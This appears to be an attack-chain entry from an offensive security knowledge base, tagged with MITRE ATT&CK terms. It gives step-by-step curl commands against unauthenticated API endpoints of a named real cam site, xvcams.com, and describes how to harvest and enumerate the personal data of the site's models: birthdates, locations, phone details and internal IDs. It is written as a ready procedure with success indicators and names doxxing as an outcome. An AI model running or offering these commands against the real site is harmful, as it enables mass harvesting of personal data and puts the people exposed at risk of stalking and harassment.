

---
tags:
  - information-disclosure
  - pii-leak
  - api-vulnerability
  - web
type: attack_chain
tools:
  - '[[tools/Web-Browser]]'
tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Access-Offline-Models-API-for-PII-Leak]]'
  - '[[procedures/Access-Recommend-Models-API-for-Tracking-Data]]'
  - '[[procedures/Access-Model-JSON-Endpoint-for-Additional-Leak]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
updated_at: '2025-12-14T17:32:28.772Z'
description: >-
  Multi-stage chain exploiting unauthenticated API endpoints on xvcams.com to
  harvest personally identifiable information (PII) of models, including
  birthdates, locations, and internal IDs, enabling identity theft and
  harassment.
skill_level: beginner
impact_level: high
id: 2ada6dd1-fb9c-488c-99ca-64d75ca5715d
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Active Scanning]]'
---
---

# PII Exposure via Unauthenticated xvcams.com API Endpoints

Multi-stage attack chain demonstrating the discovery and exploitation of information disclosure vulnerabilities in public API endpoints of xvcams.com, allowing unauthenticated retrieval of sensitive model PII such as birthdates, locations, eye colors, phone verification statuses, internal user IDs, and room statuses. This chain highlights systemic privacy control failures, enabling mass data harvesting for malicious purposes like doxxing and phishing.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Web-Browser]]

### Target Environment

- Web platform
- Publicly accessible HTTPS endpoints on xvcams.com
- No authentication required

### Initial Access Requirements

- Internet connectivity
- No credentials needed
- Direct browser or curl access to https://www.xvcams.com

## Detailed Attack Procedures

### Step 1: Access Offline Models API for PII Leak
procedure: [[procedures/Access-Offline-Models-API-for-PII-Leak]]

**Objective**: Retrieve unfiltered JSON containing PII of offline models filtered by tags, exposing birthdates, locations, eye colors, and phone verification details.

**Instructions**: Use a web browser or curl to send a GET request to the endpoint with parameters for tag filtering. For example, target tag_id=115 for a specific category:

Execute [[commands/curl-access-offline-models-api]]:

```bash
curl "https://www.xvcams.com/api/models/get-offline-models-by-tags.php?sitekey=xvt&tag_id=115&service=girls&t=$(date +%s)" -H "User-Agent: Mozilla/5.0"
```

Inspect the JSON response for fields like id, name, birthdate, age, location, eye_color, and phone object.

**Expected Output**: JSON array of model objects with sensitive PII, e.g., {"id":123,"birthdate":"1990-01-01","location":"USA","phone":{"verified":true,"internal_id":456}}.

**Success Indicators**:
- JSON response received without errors
- PII fields visible in response
- No authentication prompt

### Step 2: Access Recommend Models API for Tracking Data
procedure: [[procedures/Access-Recommend-Models-API-for-Tracking-Data]]

**Objective**: Harvest internal tracking data including model IDs, recommendation IDs, room statuses, and session timestamps, allowing user activity enumeration.

**Instructions**: Send a GET request to the recommendation endpoint, optionally with user_id=0 for anonymous access or specific model_id to simulate recommendations:

Execute [[commands/curl-access-recommend-models-api]]:

```bash
curl "https://www.xvcams.com/api/models/recommend-models-to-cust.php?user_id=0&model_id=1078906&t=$(date +%s)" -H "User-Agent: Mozilla/5.0"
```

Parse the response for recommId, model_id, model_name, room_status, and other metadata.

**Expected Output**: JSON with recommendation objects, e.g., {"recommId":789,"model_id":1078906,"room_status":"offline","model_name":"Example"}.

**Success Indicators**:
- Response includes internal IDs and statuses
- Data enumerable by varying parameters like model_id
- Brute-force potential for additional entries

### Step 3: Access Model JSON Endpoint for Additional Leak
procedure: [[procedures/Access-Model-JSON-Endpoint-for-Additional-Leak]]

**Objective**: Retrieve supplementary model data in JSON format, contributing to comprehensive PII aggregation and highlighting broader systemic leaks.

**Instructions**: Navigate to the index endpoint with JSON parameters to fetch model information without restrictions:

Execute [[commands/curl-access-model-json-endpoint]]:

```bash
curl "https://www.xvcams.com/?tpl=index2&model=json&_=$(date +%s)" -H "User-Agent: Mozilla/5.0"
```

Examine the response for any additional PII or model details overlapping with prior endpoints.

**Expected Output**: Raw JSON model data, potentially including names, statuses, or IDs.

**Success Indicators**:
- JSON payload returned
- Overlap with PII from other endpoints
- No access controls enforced

## Attack Chain Summary

### Key Achievements

1. Successful unauthenticated access to multiple API endpoints leaking PII and internal data.
2. Demonstration of mass harvesting potential via parameter manipulation (e.g., tag_id, model_id).
3. Identification of privacy violations enabling real-world harms like doxxing and identity theft.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Active Scanning]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---

*Last updated: 2023-10-01T00:00:00Z*
